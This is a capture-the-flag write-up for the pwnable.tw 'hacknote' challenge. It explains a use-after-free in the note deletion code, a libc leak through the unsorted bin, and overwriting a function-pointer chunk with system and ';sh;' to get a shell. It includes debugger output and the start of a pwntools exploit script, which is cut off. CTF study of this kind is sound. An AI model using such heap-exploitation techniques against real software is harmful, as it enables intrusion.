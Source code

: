 Let's see the Print_note, they will call the function stored at the the first chunk (it's the function above), and pass its address to this function too. Finally, they will print everything at the address stored at the second element. 
Next, the Delete_note function, they just free the second chunk, then the first one, but <b>they don't assign the element of the array back to null or 0</b>, that's why I tell you that, you just get to use add_note functions 5 times.

---

## 0x4. Exploit

When you free a chunk, if its size is greater than 80 bytes and isn't adjacent to the top chunk (to do this just add another note in the middle), it will be put in unsorted bin (doubly linked-list) and if there is just only one chunk in unsorted bin, its previous and next pointer would point to the address of main arena in libc (the manager of bins). And when you add a new note having exactly the same size, they will give you the chunk from unsorted bin but don't reset this chunk, that means you can get the address of main arena and calculate the libc_base address, system's address, etc... 
###### After free a chunk of 100 bytes:
```
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x804b010
Size: 0x68 (with flag bits: 0x69)
fd: 0xf7fcb7b0
bk: 0xf7fcb7b0
```

###### Add a new note of 100 bytes after free and overwrite the first 4 bytes:
```
pwndbg> x/2wx 0x804b018
0x804b018:	0x41414141	0xf7fcb70a
```

As I analysed above, when adding a new note, they create a chunk of 8 bytes containing the function that print out our note, I will call it <b> the special chunk </b>. As a result, if we delete 2 notes and add a new note of 8 bytes, we will get a special chunk of the notes we just deleted and get to overwrite them and run our desired function, in that case will be system function. Because they pass the address of the special chunk to my function, we can write the system address and ";sh;" to the special chunk. So that, when we choose to print note, the system function will run the address of system (that's should be error) and then the command "sh", next will run the command right after ';'. 

###### Exploit:
```py
from pwn import *

exe = ELF("./hacknote_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *0x080489ef")
    else:
        r = remote("chall.pwnable.tw", 10102)

    return r

def add_note (p, size, content):
    p.sendlineafter (b'Your choice :', b'1')
    p.sendafter (b'Note size :', size)
```